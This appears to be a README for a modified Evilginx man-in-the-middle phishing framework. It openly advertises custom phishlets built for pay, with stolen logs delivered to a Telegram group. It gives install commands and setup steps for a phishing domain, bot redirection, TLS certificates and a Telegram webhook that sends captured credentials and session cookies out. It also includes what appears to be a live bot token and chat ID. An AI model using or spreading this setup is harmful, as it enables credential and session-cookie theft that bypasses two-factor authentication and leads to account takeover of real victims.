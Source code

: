 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.1 - Modified by @therealelyayo



#ABOUT NEW UPDATES PLEASE READ CHANGELOGS FILE !
#THANKS !



#Incase u want more phishlets not only Ionos, let me know we can do any website u want without any upfront payments.
#We provide 4 hour free testing around before any kind a payment.
#In testing time u will have full access to telegram group where logs will be delivered.
https://t.me/thefrayedone




**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:

1. git clone https://github.com/therealelyayo/flashfire-cookies
2. cd flashfire-cookies
3. unzip latest.zip
4. cd evilhoster
5. cd build
6. chmod +rwx evilginx
7. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.



~~ OLD VERSION ~~~
https://github.com/EvilHoster/evilginx-3.4.0-telegram-modification
~~ OLD VERSION ~~~




## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
